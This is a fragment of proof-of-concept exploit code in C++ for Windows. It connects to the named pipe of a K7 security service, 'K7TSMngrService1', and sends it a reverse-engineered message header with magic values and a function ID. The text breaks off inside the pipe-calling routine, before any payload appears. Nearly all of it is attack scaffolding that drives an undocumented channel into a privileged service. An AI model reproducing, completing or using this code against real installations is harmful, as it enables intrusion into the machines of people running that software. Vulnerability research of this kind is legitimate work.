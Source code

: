 # PoC Code
```C++
#include <Windows.h>
#include <sddl.h>
#include <stdio.h>
#include <winternl.h>


/////////////////////////////////////
// Common code to talk to the Pipe //
/////////////////////////////////////
typedef struct _unk1
{
	DWORD dwMagic;
	DWORD dwSomeMagic;
	DWORD dwInSize;
	DWORD field_c;
	DWORD dwFunctionId;
	DWORD dwInputDataSize;
	DWORD dwOutputDataSize;
} unk1;

HANDLE g_hPipe = INVALID_HANDLE_VALUE;

BOOL InitPipe()
{
	g_hPipe = CreateFileA("\\\\.\\pipe\\K7TSMngrService1", GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
	if (g_hPipe == INVALID_HANDLE_VALUE)
	{
		printf("CreateFileW Failed: 0x%08x\r\n", GetLastError());
		return FALSE;
	}

	return TRUE;
}

BOOL CallPipeFunction(DWORD dwFunctionId, PBYTE pInput, DWORD dwInSize, PBYTE pOutput, DWORD dwOutSize)
{
	if (g_hPipe == INVALID_HANDLE_VALUE)
	{
		if (!InitPipe())
		{
			return FALSE;
		}
	}

	unk1 u1 = { 0 };
	u1.dwMagic = 0x4B375453;
	u1.dwSomeMagic = 0x1010;
	u1.dwInSize = 28;
	u1.dwFunctionId = dwFunctionId;
	u1.dwInputDataSize = dwInSize;

	DWORD dwBytesWritten = 0;
	if (!WriteFile(g_hPipe, &u1, sizeof(u1), &dwBytesWritten, NULL))
	{
		printf("WriteFile 1 Failed: 0x%08x\r\n", GetLastError());
		return FALSE;
	}

```